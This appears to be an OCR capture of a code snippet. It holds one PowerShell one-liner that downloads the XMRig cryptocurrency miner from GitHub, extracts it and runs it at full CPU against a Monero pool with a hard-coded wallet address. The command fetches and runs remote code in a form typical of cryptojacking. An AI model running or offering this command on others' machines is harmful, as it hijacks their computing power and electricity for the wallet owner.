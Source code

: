 powershell -Command "Invoke-WebRequest -Uri 'https://github.com/xmrig/xmrig/releases/download/v6.24.0/xmrig-6.24.0-msvc-win64.zip' -OutFile 'xmrig.zip'; Expand-Archive -Path 'xmrig.zip' -DestinationPath '.'; cd xmrig-*; .\xmrig.exe -o pool.supportxmr.com:443 -u 45WvRSeZuor9BbKMZF6s1VVvQriMjvScBbRLxoMTGe9c2J8Xnx4HySRHLLeTb8zf9944GD1uEmnpgUFFRHhJ7abSJXrmezb -p x -k --tls --huge-pages --randomx-1gb-pages --threads=$(Get-CimInstance -ClassName Win32_Processor | Select-Object -ExpandProperty NumberOfLogicalProcessors) --cpu-priority=5 --max-cpu-usage=100 --donate-level=0"
